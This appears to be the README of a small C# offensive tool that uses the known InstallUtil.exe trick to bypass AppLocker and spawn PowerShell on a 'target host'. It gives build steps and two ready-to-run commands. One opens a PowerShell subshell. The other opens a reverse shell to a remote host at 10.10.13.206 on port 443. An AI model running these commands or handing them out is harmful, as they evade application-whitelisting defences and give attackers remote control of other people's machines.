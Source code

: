 #Build the binary

The project is written in C#. All the source (few lines of codes though) is committed: .csproj, .sln ...
IDE - Visual Studio 2015. You should be able to easily compile and build the binary with the default configuration Debug/X64. You only may to fix the System.Management.Automation reference that is located in the GAC folder

```
C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
```

#Usage

Well, nothing new here as we're going to use the old and well-known trick of "InstallUtil.exe" to bypass AppLocker. Once you've compiled the binary, issue the below command on the target host.
Besides, your binary doesn't have to be an "exe" as InstallUtil.exe parse any file type (.txt, .bin....)

This one opens a subshell in the current console:
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe

```

This one tries to open a PS reverse shell (I've bound it into the source as a life saver :-)):
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```
